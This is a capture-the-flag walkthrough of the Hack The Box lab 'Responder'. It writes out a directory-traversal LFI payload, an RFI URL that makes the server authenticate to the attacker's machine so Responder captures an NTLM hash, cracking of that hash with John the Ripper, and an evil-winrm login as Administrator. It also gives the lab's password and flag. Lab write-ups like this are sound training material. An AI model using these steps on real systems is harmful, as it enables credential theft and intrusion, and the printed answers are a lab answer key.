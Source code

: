 # Responder
- Difficulty: Very easy

## Connect to the machine
1. First, ensure you are connected to the Hack The Box network by configuring your VPN: `sudo openvpn [your-config-file.ovpn]`
2. Spawn the machine from the HTB dashboard. You will be assigned a target IP address.
![ip-address](img/ip-address.png)

## Task Breakdown
**1. When visiting the web service using the IP address, what is the domain that we are being redirected to?**
- When you access the IP address via a web browser, it redirects to `unika.htb`, but you may see a **Server not found** error
![not-found](img/not-found.png)
> **Answer:** unika.htb
- To resolve this, add the IP address to your `/etc/hosts` file:. Edit this file using `sudo nano /etc/hosts`.
![hosts](img/hosts.png)
- The webpage should now display like this:
![unika](img/unika.png)

**2. Which scripting language is being used on the server to generate webpages?**
- Scan the ports using `sudo nmap -p- -sV -sC --min-rate 5000 [IP-Address]`
![nmap](img/nmap.png)
> **Answer:** PHP

**3. What is the name of the URL parameter which is used to load different language versions of the webpage?**
- When we change language from En to FR, the URL also changes from `http://unika.htb/index.php` to `http://unika.htb/index.php?page=french.html`
![lang](img/lang.png)
> **Answer:** page

**4. Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"**
- Exploiting an LFI vulnerability is possible with a parameter like `../../../../../../../../windows/system32/drivers/etc/hosts`
The `../` enables directory traversal to access files outside the web root
![lfi](img/lfi.png)
> **Answer:** ../../../../../../../../windows/system32/drivers/etc/hosts

**5. Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"**
 
> **Answer:** //10.10.14.6/somefile

**6. What does NTLM stand for?**
> **Answer:** New Technology LAN Manager

**7. Which flag do we use in the Responder utility to specify the network interface?**
- Run `responder -h` to see available options.
![interface](img/interface.png)
> **Answer:** -I
- Run `responder -I tun0` as `root` to to start Responder on a specific interface.
- If you encounter an error like **Error starting TCP server on port 80, check permissions or other servers running.**, edit '/etc/responder/Responder.conf`  and change HTTPS from ON to OFF.
![off](img/off.png)

**8. There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?.**
> **Answer:** John The Ripper
- You can use this tool on Linux using command `john`.
![john](img/john-h.png)

**9. What is the password for the administrator user?**
- Access `http://unika.htb/index.php?page=//10.10.14.170/somefile` and capture NTLM data with Responder, which includes the client’s IP, username, and password hash.
![res](img/res.png)
- Unzip the Rock You wordlist using `sudo gunzip /usr/share/wordlists/rockyou.txt.gz`
![unzip](img/unzip.png)
- Save hash string to a file by `echo '[hash-string]' > [file-name]`
![save](img/save.png)
- Now use John The Rippter and Rock You wordlist to find the password by `john -w='[wordlist-path]' [hash-file]`
![john](img/john.png)
> **Answer:** badminton

**10. We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?**
- You can check the results from the nmap scan.
> **Answer:** 5985

## Submit the flag
- Use `evil-winrm` to remotely access the machine with `evil-winrm -i [IP-Address] -u Administrator -p badminton`. Once connected, you can explore this PC by powershell.
![evil](img/evil.png)
- Wandering around and you will find the flag.
![flag](img/flag.png)
- **My flag:** ea81b7afddd03efaa0945333ed147fac

